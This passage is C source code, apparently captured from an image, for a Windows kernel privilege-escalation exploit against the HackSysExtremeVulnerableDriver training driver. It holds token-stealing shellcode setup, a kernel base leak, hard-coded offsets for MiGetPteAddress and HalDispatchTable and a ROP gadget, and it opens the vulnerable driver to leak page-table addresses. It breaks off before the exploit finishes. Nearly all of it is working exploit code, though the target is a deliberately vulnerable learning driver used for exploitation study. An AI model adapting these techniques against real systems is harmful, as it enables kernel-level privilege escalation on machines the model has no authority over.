 ```c
	RtlMoveMemory(shellcode, token_steal_shellcode, sizeof(token_steal_shellcode));

	printf("[+] Shellcode is located at: 0x%p\n", shellcode);

	// ========================
	// == 2. Get Kernel Base ==
	// ========================

	LPVOID drivers[1024] = { 0 };
	DWORD cbNeeded;
	EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
	const u64 kernelBase = (u64)drivers[0];

	if (kernelBase == 0) ExitProcess(1);

	printf("[+] Kernel Base is located at: 0x%p\n", drivers[0]);

	// =====================================
	// == 3. Setup NtQueryIntervalProfile ==
	// =====================================

	NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(GetModuleHandle(TEXT("ntdll.dll")), "NtQueryIntervalProfile");
	if (!NtQueryIntervalProfile) ExitProcess(1);

	printf("[+] NtQueryIntervalProfile is located at: 0x%p\n", NtQueryIntervalProfile);

	// ==============================
	// == 4. Setup Kernel Pointers ==
	// ==============================

	u64 ntmigetpteAddress = kernelBase + 0x27f783; // ? nt!MiGetPteAddress+0x13 - nt
	u64 haldispatchTable  = kernelBase + 0xc00a68; // ? nt!HalDispatchTable+0x8 - nt
	//u64 CALL_RBX          = kernelBase + 0x4e7ba8; // call rbx;
	u64 JMP_RBX           = kernelBase + 0x41f300; // jmp rbx; 

	printf("[+] nt!MiGetPteAddress+0x13 is located at: 0x%llx\n", ntmigetpteAddress);
	printf("[+] nt!HalDispatchTable+0x8 is located at: 0x%llx\n", haldispatchTable);
	printf("[+] JMP_RBX gadget is located at: 0x%llx\n", JMP_RBX);
	
	// =========================
	// == 5. Get Drive Handle ==
	// =========================

	HANDLE hHEVD = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	
	if (!hHEVD) ExitProcess(1);

	// =========================
	// == 6. Leaking virtual address of shellcode's PTE entry
	// =========================

	u64 pteBase = ReadQWORD(hHEVD, ntmigetpteAddress);
	printf("[+] Base of the page table entries: 0x%llx\n", pteBase);

```